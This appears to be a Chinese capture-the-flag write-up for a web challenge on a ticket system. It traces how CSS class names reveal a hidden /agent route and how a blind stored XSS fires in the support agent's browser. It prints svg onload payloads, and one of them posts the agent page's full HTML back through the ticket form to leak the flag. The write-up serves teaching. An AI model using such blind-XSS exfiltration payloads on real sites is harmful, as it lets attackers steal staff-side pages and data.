

### 社会工程学-G2

#### css的秘密

这题有一个工单提交界面，咱们可以提交工单，提交的工单会存储在靶机上，并可以使用路由`/ticket/<num>`访问它。

首先我尝试了`XSS`，但是发现`<`和`>`都被转义了；并且可控制的回显并不存在于标签内，无法通过事件注入。看来这条路是行不通了。
不过值得注意的是，这题要求我们获取客服工作台上的信息，也就是如果真是XSS，那也需要客服浏览器触发它。如果客服浏览器看的工单是未被转义的，那XSS还有可乘之机。

然后我尝试了`SSTI`，我输入`{{7*8}}`，页面原封不动地返回了输入，flask模板注入不行。接着尝试了其他模板，也不行。

最终的突破口在css上。
最初的页面，通过网络可以发现，同步请求了一个`s.css`过来，其中值得注意的内容如下：
(这我是让AI帮我审计的)

```css
.mono { ... word-break:break-all }        /* 显示一长串断不开的字符 */
.pill { ... 绿色圆角徽章 ... }              /* 一个状态标记 */
.reply.agent .who { color: var(--brand) } /* 客服身份的回复 */
```

这是三个类名，是给HTML元素使用的，如`<div class="mono">`。而提交工单页面（初始页面）、工单详情页面，均未发现使用这些类的元素。

而关键的一点是，**css的作用域默认是全站**。这说明，**该网页下很可能还存在着一些特殊路由**！

#### 隐秘路由

关注上面贴出代码的一句话：

```css
.reply.agent .who { color: var(--brand) } 
```

它的意思是，给同时`reply`类和`agent`类的标签修改颜色。
`reply`类被用于回复内容，那么推测这存在一种特殊的回复，是`agent`的回复，指向客服。

然后就尝试了有关`agent`的路由，包括：

```text
/agent                   
/agent/<id>           
/agent/ticket/<id>        
/agent/ticket/<id>/reply
/agent/tickets
```

尝试到`/agent/ticket/<id>`时，得到的结果不是404，而是403，这说明该页面确实存在，只不过没权限访问。
而这个页面内，很可能就有我们想要的标签。

#### 盲注XSS

回到最开始的思路，让我们试试客服端是否没有XSS的转义。构造如下payload：
(记得填满三个输入框)



```html
<svg onload="fetch('/ticket',{method:'POST',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'name=1&subject=2&body=3'})">
```

可以发现该次工单的下一篇工单`<id>+1`就是fetch请求的结果，也就是说客服那边看了一眼这个工单，然后渲染了该html标签。XSS存在。

那咱们修改payload，尝试把客服那边的整个html页面拉下来：

```html
<svg onload="fetch('/ticket',{method:'POST',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'name=1&subject=2&body='+encodeURIComponent(document.documentElement.outerHTML)})">
```

用同样的方法上传payload，访问此次工单的下一个id工单即可获取客服视角的html源代码。
搜索`vmc`即可定位flag。

#### 总结：

本题纯黑盒测试，但总体上有迹可循；

对于我个人，从未尝试过从css中找线索，今天也是学到了这点。

整体思路是：

```
css中发现类差集
↓
根据页面功能判断客服视角页面的存在
↓
猜测页面路由
↓
猜测XSS在客服端生效
↓
XSS注入
```
